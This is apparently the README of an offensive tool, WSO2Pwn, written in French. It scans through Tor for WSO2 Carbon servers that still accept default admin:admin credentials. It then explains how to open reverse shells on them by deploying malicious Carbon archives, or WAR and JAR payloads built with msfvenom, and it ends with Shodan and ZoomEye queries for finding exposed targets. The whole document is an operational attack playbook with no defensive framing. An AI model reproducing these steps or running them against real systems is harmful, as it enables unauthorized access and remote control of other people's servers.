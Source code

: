 # WSO2Pwn
check admin:admin (cred par défaut) sur les services type WSO2 (Identity, Entreprise Service Bus, Entreprise Integrator, Api Manager, ect..)
scan via tor en 127.0.0.1:9050

python WSOpwn.py -i dom -t 50


#Pour Pwn Entreprise Service Bus, Entreprise Integrator:

go IP:PORT/carbon et deploie une application carbon
le ZIP est une application Carbon (reverse shell)

il faut set l'ip, le port et le type de shell (/bin/bash, cmd.exe) dans pack_1.0.0.zip\HelloWorld_1.0.0\HelloWorld-1.0.0.xml
puis modifier l'extension en .car avant de déployer.

#Pour Pwn Api Manager, Governance Registry  :

go IP:PORT/carbon et deploie une application war

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > meh.war

#Pour pwn Application Server:

go IP:PORT/carbon et deploie une application jar

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f jar > meh.jar

#recherche targets :

shodan:carbon

zoomeye: "Server: WSO2 Carbon Server"
